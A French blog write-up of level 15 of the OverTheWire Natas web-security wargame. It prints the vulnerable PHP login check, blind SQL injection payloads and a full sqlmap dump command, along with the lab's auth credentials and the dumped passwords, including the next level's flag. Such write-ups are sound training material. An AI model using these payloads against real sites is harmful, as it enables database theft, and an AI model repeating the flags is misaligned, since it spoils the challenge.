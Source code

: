 ```yaml
---
layout: post
title: Wargame Natas - Writeup Level 15
description: La solution du level 15 du wargame Natas qui s'avère être une faille de type blind SQL injection.
categories: articles
tags: [hacking]
photo: overthewire_logo.png
comments: true
---
```


Il y a quelque temps je me suis penché sur le wargame [Natas](http://www.overthewire.org/wargames/natas) présent sur le site  [overthewire.org](http://www.overthewire.org), qui permet de s'initier à la sécurité web. Les épreuves sont pour la plupart assez simples et ne devrait pas poser de problèmes à ceux qui ont l'habitude des épreuves de ce genre là. Pour ceux que ça intéresse j'ai mis à disposition les solutions des épreuves précédentes sur le [wiki](http://wiki.zenk-security.com/doku.php?id=natas_wargame) de ZenkSecurity.

J'ai choisi de rédiger le writeup du level 15 pour montrer que la bonne maîtrise d'un outil peut faire gagner pas mal de temps, en l’occurrence nous allons utiliser sqlmap qui est un des outils les plus populaires pour exploiter les failles de type SQL injection.

L'épreuve se présent sous la forme d'un simple formulaire permettant de vérifier l'existence d'un utilisateur dans la base de données :

![Natas1](/img/blog_img/natas15_1.png)

Lorsque que l'on valide le formulaire un message nous indique si oui ou non l'utilisateur est présent :

![Natas1](/img/blog_img/natas15_2.png)

On suppose qu'il va falloir récupérer les informations de l'utilisateur "natas16" puisqu'il existe.

Jetons un oeil au code source :

{% highlight php linenos %}
<?php
/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas15', '<censored>');
    mysql_select_db('natas15', $link);

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysql_query($query, $link);
    if($res) {
    if(mysql_num_rows($res) > 0) {
        echo "This user exists.<br>";
    } else {
        echo "This user doesn't exist.<br>";
    }
    } else {
        echo "Error in query.<br>";
    }

    mysql_close($link);
} else {
?>
{% endhighlight %}

On apprend tout d'abord que les informations sont stockées dans une table nommée "users" et qui comprend deux colonnes, "username" et "password". Le flag pour le prochain niveau correspond très probablement au mot de passe de l'utilisateur natas16.

On remarque qu'il est possible de modifier la requête SQL en manipulant le paramètre "username" puisque ce dernier n'est pas filtré. Malheureusement on ne va pas pouvoir directement récupérer les informations présente en base puisque la seule informations que nous est fournis est si oui ou non l'utilisateur existe.

Pour arriver à nos fin nous allons utiliser une technique appelé Blind SQL injection, un exemple est plus parlant :

    natas16" and 1=2# // This user doesn't exist.
    natas16" and 1=1# //  This user exist.
    natas16" and substr(password,1,1)='4'# // This user doesn't exist.
    natas16" and substr(password,1,1)='3'# //  This user exist.

On peut donc récupérer caractère par caractère le mot de passe de l'utilisateur natas16 avec un petit script, mais comme je suis feignant on va utiliser sqlmap avec les options qui vont bien:

    sqlmap.py
    -u "http://natas15.natas.labs.overthewire.org/"
    --string="This user exists"
    --technique=B
    --auth-type=Basic
    --auth-cred=natas15:m2azll7JH6HS8Ay3SOjG3AGGlDGTJSTV
    --data "username=natas16"
    -D natas15
    -T users
    -C username,password
    --dump
    --level=5
    --risk=3

Après quelques minutes vous devriez obtenir ceci :

    +----------------------------------+----------+
    | password                         | username |
    +----------------------------------+----------+
    | hROtsfM734                       | alice    |
    | 6P151OntQe                       | bob      |
    | HLwuGKts2w                       | charlie  |
    | 3VfCzgaWjEAcmCQphiEPoXi9HtlmVr3L | natas16  |
    +----------------------------------+----------+

Et une épreuve validée de plus :)

Pour plus d'info concernant les options de sqlmap reportez vous à la [documentation](https://github.com/sqlmapproject/sqlmap/wiki/Usage).

Et si vous voulez voir l'exécution du script en direct c'est par ici :

<script type="text/javascript" src="http://ascii.io/a/1623.js" id="asciicast-1623"> </script>